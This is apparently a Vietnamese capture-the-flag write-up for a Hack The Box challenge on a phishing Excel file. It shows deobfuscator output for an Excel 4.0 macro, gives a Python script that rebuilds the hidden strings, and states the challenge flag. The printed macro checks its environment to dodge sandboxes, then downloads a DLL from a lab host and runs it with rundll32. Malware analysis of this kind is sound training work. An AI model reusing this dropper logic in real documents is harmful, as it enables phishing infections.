





### Description 
> Another Phishing document. Dig in and see if you can find what it executes.
### Link challenge 
> https://app.hackthebox.com/challenges/oBfsC4t10n2

### Solution
- Dựa vào description và challenge cho ta 1 file xls
- Sau khi mở ra chỉ thấy 1 sheet tên `invoice `
- 
- Tiếp tục kiểm tra macro với công cụ olevba, nhưng có vẻ nó đã bị xáo trộn mã để nhà phân tích khó đọc
- Mình sẽ sử dụng công cụ [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) để sửa mã lại cho dễ đọc
- Đây là đầu ra 
```
┌──(kali㉿kali)-[~/Downloads/XLMMacroDeobfuscator/XLMMacroDeobfuscator]
└─$ python3 deobfuscator.py --file ~/Downloads/oBfsC4t10n2.xls 
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)

          _        _______
|\     /|( \      (       )
( \   / )| (      | () () |
 \ (_) / | |      | || || |
  ) _ (  | |      | |(_)| |
 / ( ) \ | |      | |   | |
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/

    
XLMMacroDeobfuscator(v0.2.7) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/kali/Downloads/oBfsC4t10n2.xls

Unencrypted xls file

[Loading Cells]
auto_open: auto_open->'c1zB0vasNo'!$N$545
[Starting Deobfuscation]
CELL:N545      , PartialEvaluation   , =WORKBOOK.HIDE("c1zB0vasNO",TRUE)
CELL:N546      , FullEvaluation      , GET.WORKSPACE(1)
CELL:N547      , Branching           , IF(ISNUMBER(SEARCH("Windows",N546)),ON.TIME(NOW()+"00:00:02","agawf23f"),CLOSE(FALSE))
CELL:N547      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","agawf23f")
CELL:D8        , Branching           , IF(GET.WORKSPACE(42.0),CONCATENATE(E394,F1194,F549,E635,O697,U208,T458,M868,Z4,U777),CONCATENATE(F394,F1194,E549,O635,U697,D777))
CELL:D8        , FullEvaluation      , [TRUE] " HTB{n0w_e"
CELL:D9        , FullEvaluation      , GET.WORKSPACE(13)
CELL:D10       , FullEvaluation      , GOTO(C1300)
CELL:C1300     , FullEvaluation      , GOTO(Q222)
CELL:Q222      , Branching           , IF(GET.WORKSPACE(19.0),ON.TIME(NOW()+"00:00:02","rstegerg3"),CLOSE(TRUE))
CELL:Q222      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","rstegerg3")
CELL:T698      , Branching           , IF(OR(D9<700.0),ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","Lsl23Us7a"))
CELL:T698      , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","Lsl23Us7a")
CELL:D1337     , Branching           , IF(F100<300.0,ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","KsshpqC4Mo"))
CELL:D1337     , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","KsshpqC4Mo")
CELL:D1023     , Branching           , IF(ISNUMBER(SEARCH("6.1",N546)),CONCATENATE(Z699,L932,J1190,C574,J644,A718,E813),CONCATENATE(A699,E932,K1190,J574,A644,Z718,W813))
CELL:D1023     , FullEvaluation      , [FALSE] "A$0!(rR"
CELL:D1024     , FullEvaluation      , GOTO(R1186)
CELL:R1186     , FullEvaluation      , GET.WORKSPACE(1)
CELL:R1187     , FullEvaluation      , IF(NOT(ISNUMBER(SEARCH("7.0",R1186))),CLOSE(FALSE))
CELL:R1188     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)
CELL:R1189     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)
CELL:R1190     , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://0b.htb/s.dll","C:\rncwner\CkuiQhTXx.dll",0,0)
CELL:R1191     , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","rundll32.exe","C:\rncwner\CkuiQhTXx.dllIF(GET.WORKSPACE(42.0),CONCATENATE(E394,F1194,F549,E635,O697,U208,T458,M868,Z4,U777),CONCATENATE(F394,F1194,E549,O635,U697,D777))Xc3l_4.0_M4IF(ISNUMBER(SEARCH(""6.1"",N546)),CONCATENATE(Z699,L932,J1190,C574,J644,A718,E813),CONCATENATE(A699,E932,K1190,J574,A644,Z718,W813))}",0,0)
CELL:R1192     , FullEvaluation      , GOTO(A1338)
CELL:A1338     , FullEvaluation      , FORMULA.FILL("a",A1:Z1337)
CELL:A1339     , End                 , HALT()
CELL:D1023     , FullEvaluation      , [FALSE] "aaaaaaa"
CELL:D8        , FullEvaluation      , [TRUE] "aaaaaaaaaa"

Files:

[END of Deobfuscation]
time elapsed: 0.8344771862030029

```
- Ngay tại dòng đầu tiên : `WORKBOOK.HIDE("c1zB0vasNO",TRUE)`, ta thấy rằng 1 sheet `c1zB0vasNO` đã bị ẩn và 1 vài phép nối chuỗi thông qua `CONCATENATE`
- Tại dòng này `CELL:D8        , FullEvaluation      , [TRUE] " HTB{n0w_e"` ta có thể thấy 1 phần của flag 
- Thực thi từ xa và tải xuống mã độc: Các lệnh từ R1188 đến R1191 sử dụng hàm CALL để gọi các hàm API của Windows, tạo thư mục, tải xuống một DLL từ một URL cụ thể, và sau đó thực thi nó bằng cách sử dụng rundll32.exe. Điều này là một dấu hiệu rõ ràng của việc tải xuống và thực thi mã độc từ xa.
- Để biết được các lệnh ghép chuỗi ra payload gì, ta có 2 cách 
##### Cách 1 : Thủ công và tạo script để phân tích malware
- Ta biết rằng có 1 sheet ẩn tên  `c1zB0vasNO`, vì mình dùng libreoffice nên mình trích xuất sheet ẩn theo hướng dẫn [này](https://youtu.be/9PLL7SEeh9Q)
- 
- Trong sheet này, ta có thể thấy mỗi ô nó sẽ chứa 1 hoặc 1 vài kí tự 
- 
- Dựa vào đó mình sẽ viết 1 script python để trích xuất payload xem nó làm gì 
```
import xlrd

file_path = 'oBfsC4t10n2.xls'
sheet_name = 'c1zB0vasNo'
string_cell = 'E394,F1194,F549,E635,O697'
list_cell = string_cell.split(',')

def column_name_to_index(col_name):
    index = 0
    for char in col_name:
        index = index * 26 + (ord(char.upper()) - ord('A')) + 1
    return index - 1

workbook = xlrd.open_workbook(file_path)
#print("Danh sách các sheet trong tệp Excel:")
print(workbook.sheet_names())

if sheet_name.lower() in (name.lower() for name in workbook.sheet_names()):
    sheet = workbook.sheet_by_name(sheet_name)

    for cell_name in list_cell:
        col_name = ''.join([c for c in cell_name if c.isalpha()])
        row_index = int(''.join([c for c in cell_name if c.isdigit()])) - 1
        col_index = column_name_to_index(col_name.strip())

        if row_index < sheet.nrows and col_index < sheet.ncols:
            cell_value = sheet.cell_value(row_index, col_index)
            print(cell_value, end = '')
        else:
            print(f"Ô '{cell_name}' không tồn tại trong sheet '{sheet_name}'.")
else:
    print(f"Sheet với tên '{sheet_name}' không tồn tại trong tệp Excel.")

```
- Ta sẽ thay thế lần lượt biến `string_cell = 'E394,F1194,F549,E635,O697'` bằng các phép nối chuỗi thì ta sẽ được full code như sau
```
[Loading Cells]
auto_open: auto_open->'c1zB0vasNo'!$N$545
[Starting Deobfuscation]
CELL:N545      , PartialEvaluation   , =WORKBOOK.HIDE("c1zB0vasNO",TRUE)
CELL:N546      , FullEvaluation      , GET.WORKSPACE(1)
CELL:N547      , Branching           , IF(ISNUMBER(SEARCH("Windows",N546)),ON.TIME(NOW()+"00:00:02","agawf23f"),CLOSE(FALSE))
CELL:N547      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","agawf23f")
CELL:D8        , Branching           , IF(GET.WORKSPACE(42.0), "HTB{n0w_e" , "bHDr]9")
CELL:D8        , FullEvaluation      , [TRUE] " HTB{n0w_e"
CELL:D9        , FullEvaluation      , GET.WORKSPACE(13)
CELL:D10       , FullEvaluation      , GOTO(C1300)
CELL:C1300     , FullEvaluation      , GOTO(Q222)
CELL:Q222      , Branching           , IF(GET.WORKSPACE(19.0),ON.TIME(NOW()+"00:00:02","rstegerg3"),CLOSE(TRUE))
CELL:Q222      , FullEvaluation      , [TRUE] ON.TIME(NOW()+"00:00:02","rstegerg3")
CELL:T698      , Branching           , IF(OR(D9<700.0),ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","Lsl23Us7a"))
CELL:T698      , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","Lsl23Us7a")
CELL:D1337     , Branching           , IF(F100<300.0,ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","KsshpqC4Mo"))
CELL:D1337     , FullEvaluation      , [FALSE] ON.TIME(NOW()+"00:00:02","KsshpqC4Mo")
CELL:D1023     , Branching           , IF(ISNUMBER(SEARCH("6.1",N546)), "cr0.0b4cK" ,"A$0!(rR")
CELL:D1023     , FullEvaluation      , [FALSE] "A$0!(rR"
CELL:D1024     , FullEvaluation      , GOTO(R1186)
CELL:R1186     , FullEvaluation      , GET.WORKSPACE(1)
CELL:R1187     , FullEvaluation      , IF(NOT(ISNUMBER(SEARCH("7.0",R1186))),CLOSE(FALSE))
CELL:R1188     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)
CELL:R1189     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)
CELL:R1190     , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://0b.htb/s.dll","C:\rncwner\CkuiQhTXx.dll",0,0)
CELL:R1191     , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","rundll32.exe","C:\rncwner\CkuiQhTXx.dllIF(GET.WORKSPACE(42.0),"HTB{n0w_e" , "bHDr]9 " )Xc3l_4.0_M4IF(ISNUMBER(SEARCH(""6.1"",N546)), "cr0.0b4cK" ,"A$0!(rR")}",0,0)
CELL:R1192     , FullEvaluation      , GOTO(A1338)
CELL:A1338     , FullEvaluation      , FORMULA.FILL("a",A1:Z1337)
CELL:A1339     , End                 , HALT()
CELL:D1023     , FullEvaluation      , [FALSE] "aaaaaaa"
CELL:D8        , FullEvaluation      , [TRUE] "aaaaaaaaaa"
```
- Tuy nhiên ở đây ta chỉ phân tích malware bằng kĩ thuật chứ chưa thể trích xuất đầy đủ dữ liệu được.
- Nhìn vào các lời gọi 
```
CELL:R1188     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)
CELL:R1189     , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)
CELL:R1190     , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://0b.htb/s.dll","C:\rncwner\CkuiQhTXx.dll",0,0)
CELL:R1191     , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","rundll32.exe","C:\rncwner\CkuiQhTXx.dllIF(GET.WORKSPACE(42.0),"HTB{n0w_e" , "bHDr]9 " )Xc3l_4.0_M4IF(ISNUMBER(SEARCH(""6.1"",N546)), "cr0.0b4cK" ,"A$0!(rR")}",0,0)
```
- Ta thấy rằng chúng tải xuống file s.dll về `C:\rncwner\CkuiQhTXx.dll` sau đó thực thi bằng rundll32.exe
##### Cách 2: Tự động bằng công cụ XLMMacroDeobfuscator
- Ta sử dụng opption -x để tự động trích xuất các dữ liệu này ra (khuyến khích dùng)
- 
- 

> HTB{n0w_eXc3l_4.0_M4cr0s_r_b4cK}